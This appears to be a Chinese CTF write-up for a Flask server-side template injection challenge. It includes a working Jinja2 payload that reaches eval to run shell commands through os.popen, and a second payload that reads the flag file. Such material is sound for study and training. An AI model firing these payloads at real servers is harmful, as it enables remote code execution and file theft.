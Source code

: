 ```yaml
---
title: 攻防世界 WEB Web_python_template_injection
categories:
  - ctf
tags:
  - 信息安全
abbrlink: 57753
date: 2020-01-18 13:25:19
---
```




# 0x00 - 题目描述

![](http://markdown.yeek.top/20200118132746.png)





# 0x01 - 解题过程

打开是单一网页，注释中也没有其他提示。

![](http://markdown.yeek.top/20200118132924.png)



通过百度得知，是要利用 flask 模板的代码注入漏洞。就例如下面这种

![](http://markdown.yeek.top/20200118133342.png)



这是某大神已经写好的远程执行漏洞，在popen里填入指令就行了。

```php
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

效果如下

![](http://markdown.yeek.top/20200118133907.png)

![](http://markdown.yeek.top/20200118133951.png)





# 0x02 - 技术总结

这道题属于 **SSTI——服务端模板注入攻击** ，其实在 `Chrome` 的 `Hackbar` 中有测试载荷。



**SSTI** 读取文载荷

```python
[].__class__.__base__.__subclasses__()[40]('fl4g').read()
```



